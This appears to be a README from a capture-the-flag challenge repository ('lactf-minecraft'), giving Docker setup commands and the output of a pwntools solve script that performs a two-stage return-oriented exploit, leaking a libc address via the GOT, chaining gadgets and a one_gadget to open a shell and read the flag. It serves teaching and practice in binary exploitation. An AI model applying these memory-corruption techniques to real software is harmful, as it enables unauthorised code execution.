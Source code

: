 
## Configuration Notes

Use container for development:

```bash
docker build -t lactf-minecraft -f Dockerfile
docker run --rm -it -v $(pwd):/ctf lactf-minecraft /bin/tmux
```

Execute solution script against local target in container:

```bash
$ python3 solve.py
[+] Starting local process '/ctf/chall/ld-linux-x86-64.so.2': pid 16
Press enter to start exploit
Building payload 1...
Payload 1 bytes: 
<snip>
Payload 1 length:  96
Sending first payload...
Navigating to return...
Ret into the payload...
Sending GOT address to leak puts...
Leaked puts address (in libc):  0x7b2386677980
Building payload 2...
Libc base:  0x7b2386600000
pop_rbp_r13_addr:  0x7b23866fea7c
pop_rdi_addr:  0x7b23866277e5
one_gadget_addr:  0x7b23866d511f
Payload 2 bytes: 
<snip>
Payload 2 length:  120
Sending second payload...
Opening shell...
[*] Switching to interactive mode

$ cat chall/flag.txt
THIS_IS_THE_FLAGTHIS_IS_THE_FLAGTHIS_IS_THE_FLAGTHIS_IS_THE_FLAG
$  
```

Execute solution script and start GDB for debugging target locally in
container, writing `pwntools` debugging context to stdout:

```
$ python3 solve.py GDB LOG
```

Execute solution script against remote target (assuming instance running
remotely and `solve.py` includes correct domain/port):

```
python3 solve.py REMOTE
<snip>
$ cat flag.txt
```